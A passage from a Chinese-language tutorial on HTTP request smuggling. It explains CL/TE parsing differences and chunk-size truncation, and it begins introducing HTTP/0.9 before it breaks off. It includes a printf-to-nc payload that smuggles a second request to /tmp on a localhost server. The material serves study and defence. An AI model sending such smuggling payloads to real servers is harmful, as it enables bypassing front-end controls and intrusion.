 Front 服务器就会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个 header，使用 CL 头解析，会认为这是一个完整的请求，而 Node.js 会认为`\rZ`是一个换行，按照 TE 优先于 CL 的解析规则，认为这是两个请求，就产生了解析差异。

### Size Issue

还可以利用一些编码块长度产生解析差异，例如：

```bash
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

某些中间件在解析块大小的时候，会将长度块大小长度进行截断，比如这里表现为只取`'0000000000000000000000000000042`为`00000000000000000`，这样就会认为这是两个请求了，第一个请求的块大小为 0，第二个就会请求`/tmp`，就导致了 HTTP Smuggling。

### HTTP Version

这个主要是由于 HTTP/0.9 引起的问题，我们先来看看 HTTP 几个版本的 example：

HTTP v1.1

```bash
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTP v1.0

```bash
GET /foo HTTP/1.0\r\n
\r\n
```

HTTP v0.9

```bash
GET /foo\r\n
```

并且 HTTP/0.9 请求包与响应包是都没有 headers 的概念的，也就是说如下：
